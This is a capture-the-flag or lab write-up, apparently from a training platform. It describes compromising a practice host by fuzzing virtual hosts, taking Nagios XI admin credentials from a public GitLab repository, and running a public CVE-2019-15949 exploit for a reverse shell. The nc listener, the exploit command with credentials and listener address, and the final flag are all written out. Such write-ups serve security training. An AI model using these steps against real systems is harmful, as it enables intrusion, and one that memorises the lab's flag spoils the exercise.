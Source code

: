 # Nagios XI Authenticated Remote Code Execution under Attacking Common Applications - Skills Assessment II 

I began this assessment by performing a full port scan using nmap to identify any open services on the target machine. 
The initial scan revealed only a single service: a web server running on port 80. With this limited exposure, I turned my focus to web-based enumeration.

Visiting the IP in a browser displayed a default placeholder page, giving no immediate indication of the underlying technology or functionality. 
Suspecting the presence of virtual hosts, I ran a ffuf scan against the web server using the Host header to fuzz for subdomains. The command used was:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.inlanefreight.local" -u http://10.129.201.90 -fs 4242
```
This technique led to the discovery of three virtual hosts: `blog.inlanefreight.local`, `gitlab.inlanefreight.local`, and `monitoring.inlanefreight.local`. 
I updated my `/etc/hosts` file accordingly to resolve these domains to the target IP.

The `blog.inlanefreight.local` domain presented a WordPress site. A quick inspection of the page source and URL structure confirmed the use of WordPress through paths such as `/wp-content/` and `/wp-includes/`. 
Although enumeration with tools like wpscan was a possible next step, I chose instead to explore the other two subdomains first for any potentially more immediate attack vectors.

Navigating to `gitlab.inlanefreight.local`, I encountered an accessible GitLab instance that allowed registration and browsing of public repositories. 
I registered a user account and explored a project named “virtualhost,” which contained application configuration files. Inside the repository, I discovered hardcoded credentials and references to backend services such as a PostgreSQL database. 
One critical piece of information was a set of administrator credentials for what appeared to be the monitoring system.

Using these credentials, I logged into monitoring.inlanefreight.local, which was identified as a Nagios XI installation. Based on its interface and layout, 
I recognized it as a version potentially vulnerable to a known authenticated remote code execution vulnerability, **CVE-2019-15949**. I confirmed that the version and endpoint paths matched the exploit's requirements

With the Nagios admin credentials in hand, I downloaded a public exploit for CVE-2019-15949 and set up a listener on my attacker machine using `nc`:
```bash
nc -lvnp 8081
```
![image](https://github.com/user-attachments/assets/0c6340bb-dea9-431e-96e5-c66fc76d26f2)

I then executed the Python exploit, configured with the target URL, Nagios credentials, and my listener details:
```bash
python3 exploit.py \
  -t 'http://monitoring.inlanefreight.local' \
  -b /nagiosxi/ \
  -u nagiosadmin \
  -p 'oilaKglm7M09@CPL&^lC' \
  -lh 10.10.14.64 \
  -lp 8081
```

![image](https://github.com/user-attachments/assets/eb967440-3fdc-40e9-88cd-a1caaf7a9e35)

Once triggered, the exploit successfully delivered a reverse shell, and I received a connection back as the `nagios` user on the `skills2` system. I stabilized the shell and began enumeration of the file system.

![image](https://github.com/user-attachments/assets/f851bdb3-fd70-4467-bad9-1b05c6a3d40e)


Searching for the flag, I navigated to the web server’s admin directory and located a file named `f5088a862528cbb16b4e253f1809882c_flag.txt` under `/usr/local/nagiosxi/html/admin/`. I used the `cat` command to read its contents and retrieved the final flag:
`afe377683dce373ec2bf7eaf1e0107eb`.

This assessment reinforced the importance of thorough reconnaissance, especially when web services appear limited or non-interactive. Virtual host enumeration turned out to be the key that unlocked the entire attack chain, eventually leading to a successful exploitation of an authenticated RCE vulnerability in Nagios XI.

**Source:** 
Nagios Xi 5.6.6 - Authenticated Remote Code Execution (RCE): https://www.exploit-db.com/exploits/52138
